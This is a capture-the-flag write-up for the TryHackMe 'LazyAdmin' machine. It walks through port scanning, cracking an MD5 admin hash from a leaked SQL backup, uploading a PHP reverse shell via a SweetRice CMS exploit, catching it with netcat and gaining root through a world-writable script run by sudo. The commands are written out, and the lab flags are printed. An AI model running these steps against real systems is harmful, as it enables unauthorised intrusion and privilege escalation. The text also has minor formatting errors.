







# LazyAdmin

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Red Team  

## Overview

Easy linux machine to practice your skills

## Enumeration

### Command Used
```bash
sudo nmap 10.48.135.56 -n -T4 -sC -sV -oN Nmap-Scan
```
### Output
```ansi
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 14:54 +0530
Nmap scan report for 10.48.135.56
Host is up (0.0077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```
### Analysis

Based on the Nmap results:

- Port 22 (SSH) → Possible brute-force or credential reuse
- Port 80 (HTTP) → Web application to enumerate

## Web Enumeration

Accessed:

- http://10.48.135.56/

## Directory & File Brute Forcing

### Command Used
```bash
sudo feroxbuster -u http://10.48.135.56/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```
### Found 
```ansi
http://10.48.135.56/content/

recursive

- http://10.48.135.56/content/js/
- http://10.48.135.56/content/inc/
- http://10.48.135.56/content/as/
```
/contentt/



/content/js/



/content/as/



/content/inc/



A CMS is running at /Content called **Sweet Rice CMS**

at http://10.48.135.56/content/inc/mysql_backup/ we Found a mysql backup file



Download it.

## Credential Discovery

### Observation

A backup SQL file was discovered containing application configuration data.

---

### Extracted Credentials

```
Username: manager
Password Hash: 42f749ade7f9e195bf475f37a44cafcb
```

---

### Analysis

The password was stored as an MD5 hash and was cracked using a wordlist attack.

### Command Used
```bash
echo "42f749ade7f9e195bf475f37a44cafcb" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
### Result

```
Password: Password123

### Result

```
Username: manager
Password: Password123

### Conclusion

Valid administrative credentials were obtained, allowing access to the web application.

- Logged in with the creds at /content/as



### Location
```bash
/usr/share/fuzzdb/web-backdoors/wordpress/templates/php-reverse-shell.php
```

## Download Exploits 
```bash
searchsploit -m php/webapps/40700.html
```

- Change in file url **Localhost** Lazyadmin IP

then execure the .html exploit 
```bash
firefox 40700.html
```


it uploaded a php index page name of hacked.php

- http://10.48.135.56/content/inc/ads/hacked.php/ (this is just test)

Now Copy the code of PHP reverse shell by pentest monkey which is also avaialable in your system and put that code in 40700.html exploit

now it will upload our reverse shell rather than php index page.

and then Go here to get reverse shell 

http://10.48.135.56/content/inc/ads/hacked.php/ 

### Start Listening
```bash
nc -nvlp 8888
```

## initial Shell
```ansi
┌─[zeref@Athena]─[~/TryHackMe/LazyAdmin]─[192.168.137.158]
└──╼ $ nc -nvlp 8888             
Listening on 0.0.0.0 8888
Connection received on 10.48.135.56 59444
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 13:26:26 up  1:04,  0 users,  load average: 0.00, 0.00, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Upgrade Shell to Stable

#### Commands Used
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg

export TERM=xterm
stty rows 40 columns 120
```

## User Flag 
```bash
www-data@THM-Chal:/home/itguy$ cat user.txt 
THM{63e5bce9271952aad1113b6f1ac28a07}
```
## Privilege Escalation

### Checking Sudo Permissions

```bash
sudo -l
```

### Observation

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

The user `www-data` is allowed to execute a Perl script as root without providing a password.

---

### Script Analysis

```bash
cat /home/itguy/backup.pl
```

```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

---

### Permission Check

```bash
ls -l /etc/copy.sh
```

```
-rw-r--rwx 1 root root 81 /etc/copy.sh
```

---

### Analysis

The script `/etc/copy.sh` is writable by all users. Since it is executed with root privileges through the Perl script, modifying it allows execution of arbitrary commands as root.

---

### Exploitation

The script was overwritten to spawn a shell:

```bash
echo '/bin/bash' > /etc/copy.sh
```

Then executed via sudo:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

---

### Result

```bash
whoami
root
```

A root shell was successfully obtained.

---

## Root Flag

```bash
cd /root
cat root.txt
```

```
THM{6637f41d0177b6f37cb20d775124699f}
```

---

## Conclusion

The system was fully compromised by exploiting a misconfigured sudo rule combined with a world-writable script executed with root privileges.

---

## Learnings

- Misconfigured sudo permissions can directly lead to privilege escalation  
- Scripts executed as root should never rely on writable external files  
- Proper permission management is critical for system security  
- Always inspect scripts referenced in sudo privileges  
- Simple misconfigurations can result in complete system compromise

# Thanks For Reading | Creator Zeref0xD
